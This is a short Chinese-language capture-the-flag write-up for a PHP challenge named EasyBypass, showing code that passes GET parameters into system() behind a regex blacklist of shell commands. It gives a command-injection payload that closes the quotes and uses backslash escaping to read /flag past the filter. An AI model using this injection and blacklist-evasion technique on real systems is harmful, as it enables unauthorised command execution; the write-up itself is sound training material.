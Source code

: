 ```yaml
---
title: EasyBypass
date: 2024-07-23 18:10:59
tags: 题解
categories: 刷题笔记
---
```


### EasyBypass

我们进行代码审计

```
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];


if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

代码对comm1和comm2进行正则匹配，再执行命令

我们需要做的就是绕过正则匹配和执行想要的命令

<!--more-->

```
system($cmd);可看做system( "file $comm1 $comm2");
```

我们可以将引号进行闭合，执行我们想要的命令

因此payload

```
?comm1=index.php";ca\t+/f\lag"&comm2=1
```

得到flag

![image-20240723182132642](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202407231821693.png)
